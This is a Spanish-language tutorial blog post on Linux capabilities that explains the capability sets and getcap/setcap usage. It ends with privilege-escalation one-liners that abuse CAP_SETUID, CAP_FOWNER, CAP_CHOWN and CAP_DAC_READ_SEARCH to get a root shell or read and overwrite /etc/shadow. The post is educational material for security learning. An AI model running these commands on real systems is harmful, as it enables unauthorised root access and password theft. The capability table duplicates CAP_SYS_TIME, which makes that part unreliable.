 ```yaml
---
title: Explotación de las Capabilities
date: 2021-12-30 12:15:09 +0700
categories: [Privilege Escalation, Linux]
tags: [privesc,linux,capabilities]
image:
  path: https://i.ibb.co/Lt5fgcZ/explotacion-de-las-capabilities.png 
  alt: Explotación de las Capabilities 
---
```


Anteriormente, hablamos de los permisos SUID (setuid), te hago recordar esto porque quizás esto es algo parecido, pero no.

La diferencia entre estos es que si tenemos un binario con permisos SUID y ejecutas el binario, directamente asumes el rol del propietario de forma temporal. Pero si el binario tiene asignado una capabilitie, solo se le permite ejecutar ciertas acciones privilegiadas, más no asumir el rol del propietario.

## ¿Qué son las capabilities?

Las capabilities son atributos especiales en el kernel de Linux que otorgan privilegios específicos a procesos y programas que normalmente están reservados para procesos cuyo UID sea 0.

Lo bueno de las capabilities para un sysadmin es que con estas podemos dividir el poder de root, de modo que si se logra explotar un binario que tiene una o más capabilities, el daño que causara este será limitado, esto dependerá de las capabilities que le asignes.

## Capabilites Sets

Cada subproceso tiene los siguientes conjuntos de capabilities que contienen cero o más:

### CapInh: Inherited capabilities (Heredadas)
Con el Inherited (Heredado), se puede especificar todas las capabilities que se pueden heredar de un proceso principal.

### CapPrm: Permitted capabilities (Permitidas)

Este es un superconjunto de capabilities que el subproceso puede agregar a los conjuntos de subprocesos permitidos o heredables.

### CapEff: Effective capabilities (Efectivas)

El CapEff representa todas las capabilities que el proceso está usando en este momento (este es el conjunto real de capabilities que el kernel usa para las comprobaciones de permisos).

### CapBnd: Bounding capabilities (Delimitación)

Con el Bounding (Delimitador), es posible restringir las capabilities que un proceso puede recibir.

### CapAmb: Ambient capabilities (Ambientales)

La capabilitie Ambient (Ambientales) se aplica a todos los archivos binarios no SUID sin capabilities de archivo.

## ¿Cómo se usan?

Hay varias capabilities para diferentes propósitos, esta es una lista de las más relevantes:

| Capabilitie | Descripción |
|-|-|
| CAP_SYS_TIME | Configure el sistema y el reloj de hardware en tiempo real. |
| CAP_SYS_TIME | Evita comprobaciones de permisos para enviar señales. | 
| CAP_DAC_OVERRIDE | Evita las revisiones de permisos sobre operaciones de lectura, escritura y ejecución. |
| CAP_CHOWN | Permite cambios arbitrarios en los IDs de usuario y de grupo los ficheros. |
| CAP_NET_RAW | Permite el uso de conectores de tipo RAW y PACKET. | 

Se puede asignar una capabilitie/s de las siguientes formas:
- `setcap cap_setuid+ep /usr/bin/python3.9`
- `setcap cap_setuid,cap_chown+ep /usr/bin/python3.9`

Podemos comprobar que capabilities tiene asignado el subproceso actualmente con: `grep "Cap" /proc/<PID>/status`

-   Usuario **normal**: ![Capabilities - user](https://i.ibb.co/Ksvk45F/User.png)

-   Usuario **root**: ![Capabilities - root](https://i.ibb.co/7Rr4dzy/Root.png)

> **Nota:** El `$$` contiene el PID de la shell que estamos ejecutando.

Veremos números hexadecimales que con la utilidad `capsh`, podemos decodificarlos para obtener los nombres de las capabilities asignadas:

![capsh](https://i.ibb.co/0Z51R7V/capsh.png)

También hay otra manera más fácil con `getpcaps <PID>`.

![getpcaps](https://i.ibb.co/MPBDRRj/getpcaps.png)

- Encontrar capabilities asignadas de forma recursiva desde la raíz: `getcap -r / 2>/dev/null`
- Mostrar las capabilities asignadas en un archivo en específico: `getcap /usr/bin/python3.9`
- Podemos remover las capabilities asignadas a un archivo: `setcap -r /usr/bin/python3.9`

## Privilege Escalation

Existe una lista muy larga de las capabilities que existen hoy en día, pero hay algunas en específicas que si le asignas a determinados programas puedes escalar privilegios de forma completa y obtener un shell como usuario root.

> **Nota:** Estas capabilities solo fueron asignadas a `python3.9` para que se les sea fácil entender, pero que quede en claro que este no es el único comando que se puede explotar.

### CAP_SETUID

```terminal
python3.9 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### CAP_FOWNER

```terminal
python3.9 -c 'import os; os.chmod("/bin/bash",40001)'
/bin/bash -p
```

### CAP_CHOWN

Podemos asignarnos como propietario del archivo `/etc/shadow`:

```terminal
python3.9 -c 'import os; os.chown("/etc/shadow",1000,1000)'
```

Si grepeamos por `ENCRYPT` en fichero `/etc/login.defs`, podemos ver que método de encriptado usa:

![login.defs](https://i.ibb.co/JykvKhN/login-defs.png)

para así generar una nueva contraseña con `openssl` y su encriptado correspondiente y remplazarlo para el usuario root. Puedes solicitar ayuda con `openssl passwd --help` para crear el tipo de hash para la contraseña.

Ejemplo: `openssl passwd -6`

### CAP_DAC_READ_SEARCH

Con esta capabilitie podemos leer cualquier archivo, en especial el `/etc/shadow` :

```terminal
python3.9 -c 'print(open("/etc/shadow","r").read())'
```

Estas solo fueron algunas, en la página de [GTFOBins](https://gtfobins.github.io/) puedes encontrar más comandos que puedes explotar con diferentes capabilities.

